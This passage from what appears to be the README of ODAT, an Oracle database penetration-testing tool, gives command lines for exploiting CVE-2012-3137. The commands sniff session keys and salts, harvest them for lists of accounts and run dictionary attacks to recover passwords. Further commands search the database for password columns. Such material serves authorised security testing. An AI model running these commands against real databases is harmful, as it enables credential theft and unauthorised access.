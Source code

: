  *stealRemotePwds* module
---

This module allows you to exploit the CVE-2012-3137 (http://www.cvedetails.com/cve/CVE-2012-3137/) vulnerability easily.


__Note__: Need *root* privileges in order to sniff session keys and salts from the network.

* To test if the remote database is vulnerable:
```bash
sudo ./odat.py stealRemotePwds -s $SERVER -d $ID -U $USER -P $PASSWORD --test-module
```
* With the previous command, ODAT will try to get the session key and salt. If it has these 2 values for the user given in command line (ie $USER), ODAT will try to decrypt the session key with your password given in command line (ie $PASSWORD). If the session id (value decrypted) starts with '\x08\x08\x08\x08\x08\x08\x08\x08', the password given (ie $PASSWORD) for this user (ie $USER) is valid and the target database is vulnerable to this CVE.
* To get session keys and salts of users stored in the *accounts_small.txt* file:
```bash
sudo ./odat.py stealRemotePwds -s $SERVER -d $ID --user-list accounts_small.txt --get-all-passwords
```
* To do a dictionary attack on session keys and salts:
```bash
sudo chmod o+r sessions-$SERVER-1521-$SID.txt; ./odat.py stealRemotePwds -s $SERVER -d $SID --decrypt-sessions sessions-$SERVER-1521-$SID.txt dede.txt
```

 *search* module
---

This module allows you to search in column names easily.

* To get column names which contains *password* *like* (ex: passwd, password, motdepasse, clave):
```bash
./odat.py search -s $SERVER -d $SID -U $USER -P $PASSWORD --pwd-column-names
```

By default, columns which do not contain data are not output by this module.
To see columns which do not contain data, you should use the *--show-empty-columns* option:
```bash
./odat.py search -s $SERVER -d $SID -U $USER -P $PASSWORD --pwd-column-names --show-empty-columns
```

* You can search patterns in column names manually (*--columns* option). To search column names which contain the pattern '%PASSWORD%':
```bash
./odat.py search -s $SERVER -d $SID -U $USER -P $PASSWORD --columns '%password%'
```

* To search column names which contain password like patterns:
```bash
./odat.py search -s $SERVER -d $SID -U $USER -P $PASSWORD --columns '%password%'
```

 *unwrapper* module
---
This module allows you to unwrap PL/SQL source code wrapped (Oracle 10, 11 and 12).
